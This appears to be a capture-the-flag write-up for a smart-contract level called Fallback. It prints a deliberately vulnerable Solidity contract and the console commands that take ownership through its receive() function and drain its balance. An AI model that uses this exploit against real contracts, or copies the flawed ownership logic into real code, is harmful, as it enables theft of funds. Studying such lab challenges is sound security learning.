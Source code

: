 # Fallback

Second Challenge description is as follows:

Look carefully at the contract's code below.
You will beat this level if:

1. you claim ownership of the contract
2. you reduce its balance to 0
  
Things that might help:

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

Code:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Resolution
Ok, so our goal here is to claim ownership of this contract and drain all the money in it.
From the help given we can see that sending ether through a web3 api would be useful and also having an understanding of the fallback methods in a contract.

In the contract we can see that there is an 'official' way of claiming ownership which is trough the `contribute()` function, but unless you have more than 1000 eth is not viable option.

We can also see that there's a `receive()` function that could potentially allow us to claim the ownership! But, when does this `receive()` method executes? Here's where  the fallback methods part comes into place.

When se send a ETH to a contract, if the contract has a declared `receive()` method, then this method will execute and process the "receiving" of the ETH that we sent.

So, with this information, we could try the following strategy:

1. Contribute to the contract via `contribute()` with a minimum amount of ETH so we are registered as contributors
2. Send some ETH through the ABI of the contract so the `receive()` method can be executed and set us as new owners
3. Execute withdraw as the new owner and drain the contract.

Let's see!
### Steps
In the Console:
1. First, we contribute to the contract a minimum to be registered as contributor and pass the `require` statement on `contribute()`:
```
await contract.contribute({ value: toWei('0.0001') })

// Check your contribution with:
fromWei(await contract.getContribution())
```
2. Second we can take the contract address with: `await contract.address` or just use it in the next step
3. Once you have the contract address we can send ETH to that address via the given API:
```
await sendTransaction({from:"{YOUR_CONNECTED_WALLET_ADDRESS}", to: contract.address, value: toWei("0.002")})
```
3. The above TX will go through the `receive()` method making us the new owner
4. Check the new owner (should be your address):
````
contract.owner
````
5. Execute the `withdraw` function:
```
await contract.withdraw()
````

That's it! These steps should be enough to claim ownership and drain the contract! 💥 
## License

[MIT](https://choosealicense.com/licenses/mit/)
